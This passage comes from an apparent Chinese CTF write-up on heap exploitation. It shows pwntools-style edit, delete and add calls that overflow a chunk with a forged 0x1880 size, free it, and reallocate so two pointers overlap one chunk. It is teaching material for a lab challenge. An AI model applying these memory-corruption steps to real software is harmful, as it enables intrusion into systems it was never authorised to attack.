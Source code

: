 ```plain
edit(5,0x418,'a'*0x410+p64(0x1880))
```

[![](assets/1701606615-f9e8089794ca0d5975c84e199502393d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213629-fb93fe88-83bb-1.png)  
然后直接 free

```plain
delete(6)
```

[![](assets/1701606615-159a8ba3e258803490a7d56c5be3b6a7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213642-02e37af6-83bc-1.png)

然后直接申请一定 0x408 大小的 chunk，造成两个指针指向同一个 chunk

```plain
add(0x408,'cccc')
add(0x488,'cccc')
add(0x488,'cccc')
```

[![](assets/1701606615-c99a3827d710869791e694da49bae939.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213701-0eb46c0a-83bc-1.png)  